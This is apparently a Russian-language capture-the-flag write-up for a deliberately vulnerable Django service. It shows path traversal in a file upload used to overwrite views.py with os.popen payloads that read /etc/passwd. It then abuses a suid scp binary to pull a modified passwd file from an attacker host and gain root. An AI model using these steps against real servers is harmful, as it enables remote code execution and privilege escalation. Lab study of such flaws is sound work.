 # Уязвимость удаленного выполнения кода с повышением привилегий сервиса `WebsiteGuide`

## Сервис WebsiteGuide

Для начала разверните сервис 

##### Установите `docker`

```sh
apt update
apt install docker docker.io
```

##### Соберите образ веб сервера

```sh
cd websiteguide
docker build --no-cache . -t websiteguide
```
##### Запустите контейнер

```sh
docker run -d --restart=always --name=websiteguide -p 8000:80 websiteguide
```

Теперь контент ресурса доступен по http://yourhost:8000

##### Создайте учетные записи пользователей

Для этого перейдите по http://yourhost:8000/admin

Логин: `admin`
Пароль: `4HfWNI4bLJzyr9ocSGGD9rlK19Dw`

После входа перейдите в **Управление пользователями** и создайте нужное количество пользователей группы.

Каждый пользователь может добавлять обычных пользователей (которые не могут блокировать и изменять чужие учетные записи)

Теперь пользователи могут активно создавать свои группы вебсайтов и просматривать чужие. 

## Легенда

В сеть утекли исходники ~~говно~~кода приложения - `legend/views.py`

## Решение

Для успешной эксплуатации уязвимости нужно:

##### <u>Увидеть</u> (в слитом `views.py`), что иконки загружаются без проверки имени

```python
def post(self, request):
	...
    save_path = os.path.join(settings.MEDIA_ROOT, 'icon', name)
    ...
```

##### <u>Понять</u>, что можно добавлять и перезаписывать файлы на сервере.

Сделать это можно например так: 

1. Изменим сообщение методе **get** (метод срабатывает при добавлении вебсайта) слитого файла `views.py`, в который в дальнейшем и будем добавлять полезную нагрузку.

   ```python
   #return CustomResponse(
   #    status=status.HTTP_201_CREATED,
   #    msg='Добавлено успешно'
   #)
   
   # меняем на полезную нагрузку
   
   return CustomResponse(
       status=status.HTTP_201_CREATED,
       msg=f"im a {os.popen('id').read()}"
   )
   ```

2. Теперь нужно перезаписать файл `views.py` на сервере.

   Для этого открывает `burp` и отлавливаем момент передачи файла на сервер:

   ![image-20230730010101759](screen/1.png)

3. Меняем `views.py` на `../../views.py`. Так мы перезапишем файл, поскольку файлы сохраняются в  `/WebsiteGuide/websiteapp/media/icon/`, а файл `views` - в `/WebsiteGuide/websiteapp/`.

> ВАЖНО! Как можно заметить, сервер работает на `Django`, а значит файлы кэшируются по умолчанию. Чтобы исполнялся код, либо должен упасть сервер, либо мы должны перезаписать файл соответствующего кэша на сервере -`/WebsiteGuide/websiteapp/__pycache__/views.cpython-36.pyc`. Первый случай можно имитировать перезагрузкой контейнера. Во втором случае нужно скомпилировать файл `views.py` в кэш с помощью `compileall`:
>
> ```python
> import compileall
> compileall.compile_file('views.py')
> ```

4. После успешной перезаписи получаем:

![image-20230730005338480](screen/2.png)



##### <u>Понять</u>, что на файл `/usr/bin/scp` установлен `suid` бит.

Например, можно использовать `linpeas.sh`

##### <u>Узнать</u> содержимое`/etc/passwd` 

```python
return CustomResponse(
    status=status.HTTP_201_CREATED,
    msg=os.popen('cat /etc/passwd').read()
)
```

![image-20230730011922039](screen/3.png)

##### <u>Перезаписать</u> файл `/etc/passwd` используя `scp`

1. Меняем в`/etc/passwd` последнюю строчку, добавив пользователя `websiteguide` в группу `root`.

2. Сгенерируем ключи `rsa` для дальнейшего использования. Чтобы подключаться без ввода пароля скопируем себе на хост сгенерированный ключ:

   ```python
   return CustomResponse(
       status=status.HTTP_201_CREATED,
       msg=os.popen('ssh-keygen -t rsa -b 4096 -P "" -f ./id_rsa && cat ./id_rsa.pub').read()
   )
   ```

   И проверяем, что выполнилось без ошибки

   ![image-20230730205344943](screen/4.png)

3. Скопируем публичный ключ и вставим его в файл `~/.ssh/authorized_keys` на своем хосте:

   ```sh
   echo "ssh-rsa AAAAB3N[тут длинная часть ключа]CVsQ== websiteguide@8c2aedce79b2" >> ~/.ssh/authorized_keys
   ```

4. Теперь можно одной командой загрузить нашу полезную нагрузку:

   ```python
   return CustomResponse(
       status=status.HTTP_201_CREATED,
       msg=f"{os.system('scp -i ./id_rsa your_username@your_ip_addr:/path/to/passwd /etc/passwd')}"
   )
   ```

   Проверяем, что выполнено успешно:

   ![image-20230730214441234](screen/5.png)

5. Проверяем, что пользователь `websiteguide` состоит в группе `root`:

   ```python
   return CustomResponse(
       status=status.HTTP_201_CREATED,
       msg=os.popen('id').read()
   )
   ```

   ![image-20230730215404353](screen/6.png)

   

##### <u>Выполнять</u> команды от `root`.

Для простоты лучше всего аналогичным образом подключиться по `ssh`, но только теперь сгенерировать ключи на хостовой машине и скопировать их на сервер.

